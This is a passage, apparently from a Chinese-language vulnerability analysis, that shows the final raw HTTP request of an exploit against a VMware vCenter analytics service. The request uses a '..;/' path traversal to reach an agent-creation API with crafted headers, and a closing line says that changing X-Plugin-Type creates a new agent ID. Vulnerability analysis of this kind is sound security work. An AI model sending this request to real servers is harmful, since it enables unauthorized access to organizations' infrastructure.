 [![](assets/1704161823-b6356aec9b5c4fed3b48c3cb76fb817c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122415-90e857c6-491c-1.png)  
最终请求包

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

通过修改 X-Plugin-Type 即可创建新的 agentId  